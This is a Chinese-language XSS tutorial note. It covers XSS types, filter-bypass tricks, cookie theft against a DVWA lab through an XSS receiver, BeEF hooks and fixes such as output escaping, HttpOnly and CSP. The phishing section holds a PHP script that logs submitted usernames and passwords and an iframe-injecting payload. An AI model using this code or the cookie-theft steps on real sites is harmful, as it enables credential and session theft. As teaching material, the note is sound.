# 跨站脚本攻击漏洞（XSS）

### 一、预备知识

[HTML](../HTML基础.md)

[JavaScript](../Javascript基础)

【因为Javascript.md文档中尚未涉及BOM笔记，所以将补充一些BOM笔记】

> 浏览器弹窗：
>
> `alert()`：警告弹窗
>
> `confirm()`：确定弹窗
>
> `prompt()`：提示弹窗

> 获取Cookie：`document.cookie`

### 二、跨站脚本攻击基础

1. 跨站脚本（Cross-site scripting，简称XSS）：是攻击者往Web页面里插入的恶意JavaScript代码，当用户浏览该页面时，嵌入Web页面的Javascript代码会执行，从而达到恶意攻击用户的目的

2. 漏洞成因：由于动态网页Web应用未对用户提交请求参数未做充分的见检查过滤（主要是`<`和`>`），允许用户再提交的数据中掺入HTML代码，然后未加编码地输出到第三方用户的浏览器，导致攻击者恶意提交的代码（也叫payload）会被受害用户的浏览器解释执行

3. payload：有效载荷，在XSS中指代攻击代码中的攻击代码或攻击语句

4. 造成的危害：

   > * 获取用户信息：如浏览器信息、ip地址、cookie信息
   > * 钓鱼：构造出一个虚假的登录框，骗取用户账户密码
   > * 注入非法链接
   > * 进入后台：配合CSRF漏洞，骗取用户点击，利用js模拟浏览器发包
   > * xss蠕虫：如自动关注、自动回复

5. 类型：

   > * 反射型：Payload经过后端，不经过数据库
   > * 存储型：Payload经过后端，且经过数据库
   > * DOM型：Payload不经过后端

6. 反射型XSS：将恶意脚本附加到url的参数中，发送给受害者，服务端未对url传来的参数做严格过滤，导致浏览器执行了恶意代码

   > 特点：仅在点开恶意URL时执行一次
   >
   > 常见漏洞场景：搜索处

7. 存储型XSS：攻击者在数据中嵌入XSS代码，提交给数据库；在其它用户请求后，服务器从数据库中查询数据并发给用户，用户浏览此类页面时，就会受到攻击

   > 特点：每次有用户访问此类页面都会受到攻击
   >
   > 常见漏洞场景：评论留言，个人信息处

8. DOM型XSS：基于DOM的XSS，通过对具体DOM代码进行分析，根据实际情况构造DOM节点进行XSS跨站脚本攻击

9. 常见的绕过方式：一般都是探测``标签

   > * 大小写绕过
   >
   >   html代码对大小写不敏感，所以可以使用大写来绕过探测
   >
   >   ``
   >
   > * 嵌套绕过
   >
   >   ``<scrript>``
   >
   > * 其它标签绕过
   >
   >   ``
   >
   > * 编码绕过
   >
   >   利用编码绕开黑名单
   >
   > * 双引号绕过
   >
   >   使用双引号闭合插入位置之前的引号
   >
   > * 单引号绕过
   >
   >   使用单引号闭合插入位置之前的引号
   >
   > * 富文本编辑器中存在XSS漏洞
   >
   >   
   >
   >   利用富文本编辑器中的链接功能插入一个链接，通过修改链接的内容闭合链接以绕过

### 三、跨站脚本攻击漏洞利用

#### ① - 利用XSS漏洞获取cookie

1. 使用在线网站[XSS平台](https://xss.pt/)

   > 用着玩玩就行了

2. 使用无sql版的cookie接收平台：BuleLotus_XSSReceiver

   > 步骤：
   >
   > 1. 登录：通过127.0.0.1:8081/XSSReceiver/login.php
   >
   > 2. 创建我的JS
   >
   >    
   >
   > 3. 获取payload
   >
   >    
   >
   > 4. 使用payload
   >
   >    
   >
   > 5. 接收面板中就会获取Cookie的值
   >
   >    
   >
   > 6. 利用Cookie绕过登录
   >
   >    > 若不更改Cookie：输入网址（http://192.168.1.101:8081/dvwa/vulnerabilities/xss_r）后，会自动跳转到登录界面（http://192.168.1.101:8081/dvwa/login.php）
   >    >
   >    > 更改Cookie：
   >    >
   >    > 
   >    >
   >    > 
   >
   >    > Note：网址可在location属性中获取

#### ② - 利用XSS漏洞进行钓鱼和流量劫持

1. 钓鱼：利用XSS漏洞，将钓鱼页面植入到网页中，从而达到钓鱼的目的

   > 1. 制作钓鱼页面：复制原有网站登录页面的源码，并修改其中的链接，达到与真实的网页元素一致的效果
   >
   >    重点：需要使数据提交的链接与后端代码的url一致
   >
   > 2. 编写后端代码，记录钓鱼页面获取的账号和密码
   >
   >    > 示例：
   >    >
   >    > ~~~php
   >    > <? php
   >    >     $name = $_POST['user'];
   >    > 	$pwd = $_POST['password'];
   >    > 	$userpwd = $name.':'.$pwd;
   >    > 	fputs(fopen("result.txt","w"),"$userpwd"); 			// 存储获取的数据
   >    > 	header('Location:http://123.123.123.123:8080');		// 跳转到原登录页面，假装登陆失败
   >    > ~~~
   >
   > 3. 构造payload
   >
   >    ``
   >
   >    ~~~javascript
   >    #payload.js
   >    document.body.innerHTML=('
      style="width:100%;height:100%"> <iframe
   >      src=钓鱼页面地址 width=100% height=1000px scrolling=no frameborder=0>
   >      </iframe>
');
   >    ~~~
   >
   >    > 

2. 流量劫持：强制性让用户访问指定的网站（利用存储型XSS）

   ``

#### ③ - BeEF的使用

BeEF-XSS是一款非常强大的web框架攻击平台，集成了许多好用的payload，kali中集成有BeEF

1. BeEF攻击浏览器的流程：

   BeEF可以生成交互payload的hook（JavaScript脚本）

   服务器端：beef作为服务端管理访问运行了hook的客户端

   客户端：运行了hook的web浏览器

2. BeEF的攻击手段：

   > 1. 配合XSS，将hook插入到存在XSS的注入处
   > 2. 直接诱使客户端访问含有hook的伪造站点
   > 3. 结合中间人攻击注入hook脚本

3. BeEF的使用方法：

   > 1. 打开kali，获取root权限
   >
   > 2. 点击beef start开启BeEF，点击beef stop关闭BeEF
   >
   >    
   >
   > 3. 启用成功：
   >
   >    

### 四、漏洞的修复

1. 输入过滤：与绕过方式对应

2. **输出转义**：使用`htmlspecialchars()`，将特殊字符转换为 HTML 实体

   

3. 在cookie上添加httponly标识（降低漏洞危害性）

   

4. 配合CSP（内容安全策略），建立白名单，规定了浏览器只能执行特定来源的代码；即使发生了xss攻击，浏览器也不会加载来源不明的第三方脚本
